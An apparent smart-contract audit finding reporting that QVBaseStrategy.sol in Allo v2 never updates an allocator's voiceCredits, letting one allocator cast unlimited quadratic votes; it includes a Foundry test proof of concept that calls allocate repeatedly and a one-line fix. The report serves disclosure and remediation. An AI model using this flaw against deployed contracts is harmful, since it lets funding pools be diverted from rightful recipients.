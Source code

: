 Best Porcelain Wolverine

high

# `QVBaseStrategy.sol`: `allocator.voiceCredits`  is not updated, allowing a recipient to be allocated an infinite number of votes
## Summary
The `allocator.voiceCredits` is not updated, allowing a recipient to be allocated an infinite number of votes.

## Vulnerability Detail
The `_allocator.voiceCredits` is not updated in the `_qv_allocate` function.

Here is the PoC:
```diff
diff --git a/allo-v2/test/foundry/strategies/QVSimpleStrategy.t.sol b/allo-v2/test/foundry/strategies/QVSimpleStrategy.t.sol
index 3dc47ae..ad9c52a 100644
--- a/allo-v2/test/foundry/strategies/QVSimpleStrategy.t.sol
+++ b/allo-v2/test/foundry/strategies/QVSimpleStrategy.t.sol
@@ -323,4 +323,23 @@ contract QVSimpleStrategyTest is QVBaseStrategyTest {
     function qvSimpleStrategy() internal view returns (QVSimpleStrategy) {
         return (QVSimpleStrategy(_strategy));
     }
+
+    function test_allocate_infinite_vote() public {
+        address recipientId = __register_accept_recipient();
+        address allocator = randomAddress();
+
+        vm.startPrank(pool_manager2());
+        qvSimpleStrategy().addAllocator(allocator);
+
+        vm.warp(allocationStartTime + 10);
+
+        vm.stopPrank();
+
+        vm.startPrank(address(allo()));
+        bytes memory allocateData = __generateAllocation(recipientId, 100);
+        qvSimpleStrategy().allocate(allocateData, allocator);
+        qvSimpleStrategy().allocate(allocateData, allocator);
+        qvSimpleStrategy().allocate(allocateData, allocator);
+        qvSimpleStrategy().allocate(allocateData, allocator);
+    }
 }
```

## Impact
The allocator can allocate infinite votes to recipients.  
A recipient with an infinite number of votes can be distributed with almost all of the funding.

## Code Snippet
https://github.com/allo-protocol/allo-v2/blob/main/contracts/strategies/qv-base/QVBaseStrategy.sol#L506-L534

## Tool used

Manual Review

## Recommendation
Add `_allocator.voiceCredits += _voiceCreditsToAllocate;` in `_qv_allocate`.
```diff
diff --git a/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol b/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol
index 24a99d4..9793455 100644
--- a/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol
+++ b/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol
@@ -528,6 +528,7 @@ abstract contract QVBaseStrategy is BaseStrategy {
 
         _allocator.voiceCreditsCastToRecipient[_recipientId] += totalCredits;
         _allocator.votesCastToRecipient[_recipientId] += voteResult;
+        _allocator.voiceCredits += _voiceCreditsToAllocate;
 
         // emit the event with the vote results
         emit Allocated(_recipientId, voteResult, _sender);
```
